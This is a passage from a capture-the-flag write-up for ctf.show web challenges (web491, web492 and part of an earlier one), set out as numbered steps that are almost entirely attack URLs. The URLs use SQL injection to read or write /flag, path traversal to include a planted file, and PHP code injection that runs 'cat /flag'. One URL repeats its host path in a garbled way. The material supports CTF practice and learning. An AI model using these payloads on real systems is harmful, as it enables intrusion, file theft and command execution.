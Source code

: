 ```php
http://1e6526fd-3805-4ddd-bfca-5ba269c93212.chall.ctf.show:8080/index.php?action=clear
```

第二步

```php
http://1e6526fd-3805-4ddd-bfca-5ba269c93212.chall.ctf.show:8080/index.php?action=check&username=0' union select "`cat /flag`"--+
```

第三步：

```php
http://1e6526fd-3805-4ddd-bfca-5ba269c93212.chall.ctf.show:8080/cache/6a992d5529f459a44fee58c733255e86.php
```



# web491

第一步

```
http://1e6526fd-3805-4ddd-bfca-5ba269c93212.chall.ctf.show:8080/index.php?action=clear
```

第二步

```
http://389af0f6-12b5-448f-8e75-8e3c5c172cd4.chall.ctf.show:8080/index.php?action=check&username=1' union select load_file("/flag") into dumpfile "/tmp/4.php"--+&password=1
```

第三步

```
http://389af0f6-12b5-448f-8e75-8e3c5c172cd4.chall.ctf.show:8080/index.php?action=../../../../../../../../tmp/4
```

# web492

第一步：

```
http://7f02a14b-b18d-4f1b-8e8e-8d23955ff6cd.challenge.ctf.show:8080/index.php?action=check&username=;'123&user[username]=--><?php system("cat /flag");?><!--
```

第二步

```
http://7f02a14b-b18d-4f1b-8e8e-8d23955ff6cd.challenge.ctf.show:8080/cache/7f02a14b-b18d-4f1b-8e8e-8d23955ff6cd.challenge.ctf.show:8080/cache/6a992d5529f459a44fee58c733255e86.php
```

# web493

